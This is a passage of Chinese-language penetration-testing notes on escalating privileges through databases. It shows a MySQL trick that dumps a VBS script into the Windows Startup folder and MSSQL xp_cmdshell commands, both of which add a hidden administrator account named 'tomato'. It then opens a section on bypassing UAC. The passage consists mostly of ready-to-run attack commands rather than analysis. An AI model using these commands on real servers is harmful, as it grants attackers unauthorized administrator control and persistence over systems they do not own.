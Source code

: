 #### 方法二

- 连接mysql服务器,进入数据库,`show tables`默认情况下`test`中没有任何表存在
- 进入`test`创建一个新的表

```sql
create table a(cmd text);
```

- 在表中插入内容,建立`vbs脚本`

```cmd
insert into a values("set wshshell=createobject(""wscript.shell"")");
insert into a value("a=wshshell.run(""cmd.exe /c net user tomato tomato /add"",0)");
insert into a value("a=wshshell.run(""cmd.exe /c net localgroup administrators tomato /add"",0)");
```

- 输出表为一个vbs文件

```sql
select * from into dumpfile “c:/Documents and Settings/All Users/开始/程序/启动/1.vbs”
```

- 重启

****

# mssql数据库提权

- 利用条件:获得`sa账号密码`或者与sa相同权限的用户

- 必须可以某种方式执行sql语句

  ```cmd
  # 获取所有数据库名
  select name from master.dbo.sysdatabases;
  # 判断是否为sa
  select is_srvrolemember('sysadmin');
  #判断是否有public权限
  select is_srvrolemember('public');
  #判断当前用户读写权限
  select is_srvrolemember('db_owner');
  #查看xp_cmd是否开启,为1则开启
  select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';
  #执行命令
  exec master..xp_cmdshell 'net user tomato tomato /add';
  exec master..xp_cmdshell 'net locagroup administrators tomato /add';
  ```

****

# Bypass UAC

- UAC是微软引入的一种安全机制
- 通过UAC应用程序和任务可以在非管理员账户的安全上下文中运行,除非管理员特别授予管理员级别的系统访问权限
- UAC可以阻止未授权的应用程序进行自动安装,并防止无意中更改系统设置
